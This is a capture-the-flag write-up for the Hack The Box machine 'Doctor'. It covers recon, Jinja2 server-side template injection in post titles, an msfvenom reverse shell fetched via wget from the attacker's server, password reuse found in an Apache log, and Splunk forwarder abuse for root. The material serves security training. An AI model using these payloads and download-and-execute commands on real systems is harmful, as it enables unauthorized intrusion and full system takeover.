# [Doctor](https://app.hackthebox.eu/machines/278)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.209 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.209 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.209
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.209
```

The quick TCP scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.209/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.209/
```


Looking at the website shows it is likely a template. The following HTML footer helps confirm by looking at the HTML source code:

```html
<!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. -->
Copyright &copy;<script>document.write(new Date().getFullYear());</script> All rights reserved | This template is made with <i class="icon-heart text-danger" aria-hidden="true"></i> by <a href="https://colorlib.com" target="_blank" >Colorlib</a>
<!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. -->
```

Start a directory scan looking for interesting files:

```bash
sudo apt install seclists --upgrade
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.quick.txt  \
  -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.209/ &
```

But this does not have any interesting hits... The full `nmap` scan returns another open port TCP 8089:



Browsing to the page shows that the pages `https://10.10.10.209:8089/services` require basic HTTP authentication. The version from the main page seems to be 8.0.5:


Some searching for `splunk 8.0.5 exploit` brings up the following:

- https://book.hacktricks.xyz/linux-unix/privilege-escalation/splunk-lpe-and-persistence#abusing-splunk-forwarders-for-shells-and-persistence

Try a bruteforce for the login by scraping the webpage for passwords:

- **NOTE:** The minimum password length is 8 characters so remove all attempts that do not match this

```bash
cewl 10.10.10.209 -d 5 -m 8 -w cewl.txt
echo 'doctor' >> cewl.txt # add the machine name just in case ...
hashcat --stdout --rules-file /usr/share/hashcat/rules/best64.rule cewl.txt | uniq -u | awk 'length($0)>8' > wordlist.txt
hydra 10.10.10.209 https-get "/services/auth/login" -vV -f -l admin -P wordlist.txt -s 8089
```

But this also does not work... Looking at the main webpage shows that an email is `info@doctors.htb`:


Maybe the webpage is hosting a different website using the HTTP Host header of `doctors.htb`? 

```bash
sudo sh -c 'echo "10.10.10.209 doctors.htb" >> /etc/hosts'
firefox http://doctors.htb
```

And this opens a new webpage:



The link `Sign Up Now` at the bottom allows for creating an account:



After signing in, a link at the top for `New Message` allows for creating messages (`http://doctors.htb/post/new`):



Looking around the website shows quite a few links that may indicate SQL injection:

```
http://doctors.htb/user/bubbagump
http://doctors.htb/post/4
http://doctors.htb/home?page=1
http://doctors.htb/post/4/update
http://doctors.htb/post/4/delete
```

But trying SQL injection just results in the following:



Visiting `http://doctors.htb/post/1` shows there is an admin account:



Looking at the HTML source for the web pages shows another hint:

```html
<div class="collapse navbar-collapse" id="navbarToggle">
  <div class="navbar-nav mr-auto">
    <a class="nav-item nav-link" href="/home">Home</a>
    <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
  </div>
  <!-- Navbar Right Side -->
  <div class="navbar-nav">
      <a class="nav-item nav-link" href="/post/new">New Message</a>
      <a class="nav-item nav-link" href="/account">Account</a>
      <a class="nav-item nav-link" href="/logout">Logout</a>
  </div>
</div>
```

Going to `/archive` shows the following raw XML RSS feed:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>test</title></item>
  </channel>
```

After some more testing, it seems like the XML just includes the title field of all posts for the current user account logged in. Trying SQL injection here also does not work... Try scanning the website with `nitko`:

```bash
nikto -h http://doctors.htb/ -C all --maxtime=120s --output=nikto.doctors.htb.txt
```



The HTTP server header of `Werkzeug/1.0.1 Python/3.8.2` is interesting. This means the backend is likely Python Flask. This could imply 2 different types of attacks:

- NoSQL injection
- Server-Side Template Injection (SSTI)

The `/archive` text about it being in "beta" leans more towards template injection since it just returns post titles:

- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
- https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

Try making a post with the title field that has the following:

```
{{7*'7'}}
```

Then browsing to `/archive` shows the following XML:


Nice! That is valid server-side template injection and tells that the backend templating engine is Jinja2.  To exploit this attack, the following background is helpful:

> In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing *every class loaded* in the current python environment (!).
>
> The usual exploitation starts with the following: from a simple empty string `""` you will create a new-type object, type `str`. From there you can crawl up to the root object class using `__mro__`, then crawl back down to every new-style object in the Python environment using `__subclasses__`.

To exploit this, first get a reference to a Python Object base class:

```
{{ ''.__class__.__mro__ }}
```

A post with the above title will return the following at `/archive`:

```html
(&lt;class &#39;str&#39;&gt;, &lt;class &#39;object&#39;&gt;)
```

This means that index 1 of the tuple will provide the access needed. Now use the following SSTI to get back a list of all objects loaded in the current Python environment on the server:

```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This will return a low of output at `/archive`. However, there is an interesting result if searching for an easy win of `subprocess`:



**NOTE:** If this did not work, trying to abuse a local file read (LFI) or trying to exploire the `config` global object for information disclosure (`SECRET_KEY`) would be the next steps...

It should be possible to get a reference to the `subprocess.Popen` object through SSTI and run commands on the target remotely. The index into the output from the previous command to `subprocess.Popen` is 407. Use this to call the function object and get code execution:

- https://docs.python.org/3/library/subprocess.html#subprocess.Popen

```
{{ ''.__class__.__mro__[1].__subclasses__()[407]('ls',shell=True,stdout=-1).communicate() }}
```

This returns the following:

```html
(b&#39;blog\nblog.sh\n&#39;, None)
```

That looks like code execution! Use it to get a reverse shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
nc -nvlp 6969
sudo python3 -m http.server 80
```

Then use the following SSTI value for the title of a post:

```
{{ ''.__class__.__mro__[1].__subclasses__()[407]('wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf && chmod +x /dev/shm/bubba.elf && /dev/shm/bubba.elf',shell=True,stdout=-1).communicate() }}
```

Then browsing to `/archive` provides the following dedicated shell but not `user.txt`:



Try finding the database of the web app and maybe the password for the `admin` user will match the password for `shaun`?

```bash
find / -iname *.db 2>/dev/null
```



`/home/web/blog/flaskblog/site.db` looks like a hit. Connect and extract any password hashes:



It seems like the hash is `$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S`. The format looks uncommon. Try to see how it was generated by looking at the source code for the application. The files used for these functions are in `/home/web/blog/flaskblog/users`. Specifically, `routes.py` has the following code snippet:

```python
from flask import render_template, url_for, flash, redirect, request, Blueprint
from flask_login import login_user, current_user, logout_user, login_required
from flaskblog import db, bcrypt
from flaskblog.models import User, Post
from flaskblog.users.forms import (RegistrationForm, LoginForm, UpdateAccountForm,
                                   RequestResetForm, ResetPasswordForm)
from flaskblog.users.utils import save_picture, send_reset_email

users = Blueprint('users', __name__)

@users.route("/register", methods=['GET', 'POST'])
def register():
    if current_user.is_authenticated:
        return redirect(url_for('main.home'))
    form = RegistrationForm()
    if form.validate_on_submit():
        hashed_password = bcrypt.generate_password_hash(form.password.data).decode('utf-8')
        user = User(username=form.username.data, email=form.email.data, password=hashed_password)
        db.session.add(user)
        db.session.commit()
        flash('Your account has been created, with a time limit of twenty minutes!', 'success')
        return redirect(url_for('users.login'))
    return render_template('register.html', title='Register', form=form)
```

It seems like a Python module called `bcrypt` and the function `generate_password_hash` is used. Some Goolging leads to the following:

- https://flask-bcrypt.readthedocs.io/en/latest/#flask_bcrypt.generate_password_hash

It seems this is a standard bcrypt password hash. Looking at the following page for HashCat, it seems module 3200 fits the hash format:

- https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
echo '$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S' > doctor.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 3200 -a 0 --quiet --force --potfile-disable doctor.hash rockyou.txt
```

But this does not result in any easy wins. When looking for backup files, another interesting hit is made:

```bash
find / -iname *backup* 2>/dev/null
```


`/var/log/apache2/backup` is not a common Apache backup location. Usually there are just tha standard `access` and `error` logs. Looking at strings for this file shows an interesting hit:

```bash
strings /var/log/apache2/backup | grep password
```


`Guitar123` is unique. Trying that for password re-use for `shaun` results in a valid login:



Now that a valid username and password are given, test this out with the original Splunk service on TCP port 8089. This is because the user `shaun` does not have any interesting Sudo permissions or files...


Nice! The credentials `shaun/Guitar123` work! This means that the original exploit mentioned here should work:

- https://book.hacktricks.xyz/linux-unix/privilege-escalation/splunk-lpe-and-persistence#abusing-splunk-forwarders-for-shells-and-persistence
- https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/
- https://github.com/cnotin/SplunkWhisperer2

Download and use the tool:

```bash
# make & host a new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -f elf \
         -o bubba.root.elf
sudo python3 -m http.server 80
nc -nvlp 7777
# have target download & execute payload
git clone https://github.com/cnotin/SplunkWhisperer2.git
python3 SplunkWhisperer2/PySplunkWhisperer2/PySplunkWhisperer2_remote.py \
  --scheme https \
  --host 10.10.10.209 \
  --port 8089 \
  --username shaun \
  --password Guitar123 \
  --lhost 10.10.14.25 \
  --lport 9999 \
  --payload 'wget -O /dev/shm/bubba.root.elf 10.10.14.25/bubba.root.elf && chmod +x /dev/shm/bubba.root.elf && /dev/shm/bubba.root.elf'
```

And this returns a shell with `root.txt`:



